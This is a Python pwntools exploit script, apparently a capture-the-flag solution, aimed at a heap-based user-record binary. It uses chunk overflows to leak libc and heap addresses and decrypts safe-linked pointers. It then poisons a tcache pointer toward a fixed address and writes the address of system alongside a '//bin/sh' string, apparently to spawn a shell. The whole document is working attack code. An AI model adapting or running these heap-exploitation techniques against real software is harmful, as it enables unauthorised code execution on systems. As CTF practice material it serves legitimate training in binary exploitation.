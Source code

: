 ```py
    io.sendlineafter(b"5 re-age user\n", b"4")
    io.sendlineafter(b"index: ", str(idx).encode())
    
    io.sendlineafter(b"Input firstname: \n", firstname)
    io.sendlineafter(b"Input middlename: \n", midname)
    io.sendlineafter(b"Input lastname: \n", lastname)
    io.sendlineafter(b"Input age: \n", str(age).encode())
    io.sendlineafter(b")\n", bio)

def decrypt_pointer(leak: int) -> int:
    parts = []

    parts.append((leak >> 36) << 36)
    parts.append((((leak >> 24) & 0xFFF) ^ (parts[0] >> 36)) << 24)
    parts.append((((leak >> 12) & 0xFFF) ^ ((parts[1] >> 24) & 0xFFF)) << 12)

    return parts[0] | parts[1] | parts[2]

add(0, 1032, b"//bin/sh\x00", b"", b"", 1337, b"")
add(1, 1032, b"", b"", b"", 1337, b"")

for i in range(2, 7+2 + 2):
    add(i, 1032, b"", b"", b"", 1337, b"")

for i in range(2, 7+2):
    delete(i)

delete(1)
edit(0, b"", b"", b"", 1337, b"Y"*(1032 - 64 + 7))

show(0)
io.recvuntil(b"Y"*(1032 - 64 + 7) + b"\n")
libc.address = pwn.u64(io.recvuntil(b"1 Add\n")[:-6].ljust(8, b"\x00")) - 0x1c7cc0
pwn.log.info(f"libc: {hex(libc.address)}")

add(11, 1032, b"", b"", b"", 1337, b"")

delete(9)

edit(11, b"", b"", b"", 1337, b"X"*(1032 - 64 + 7))

show(11)
io.recvuntil(b"X"*(1032 - 64 + 7) + b"\n")
heap = decrypt_pointer(pwn.u64(io.recvuntil(b"1 Add\n")[:-6].ljust(8, b"\x00"))) - 0x1000
pwn.log.info(f"heap: {hex(heap)}")

environ = libc.address + 0xbe02f0

edit(11, b"", b"", b"", 1337, b"X"*(1032 - 64) + pwn.p64(0x411) + pwn.p64(((heap + 0x2730) >> 12) ^ (0x404010)))

# dumb
add(12, 1032, b"", b"", b"", 1337, b"")

#===

io.sendlineafter(b"5 re-age user\n", b"1")
io.sendlineafter(b"index: \n", str(13).encode())
io.sendlineafter(b"Enter size (1032 minimum): \n", str(1032).encode())
io.sendafter(b"Input firstname: \n", pwn.p64(libc.address + 0xbbdf80))
io.sendafter(b"Input middlename: \n", pwn.p64(libc.sym.system))
io.sendafter(b"Input lastname: \n", pwn.p64(libc.address + 0x71ab0))
io.sendlineafter(b"Input age: \n", str(0).encode())
```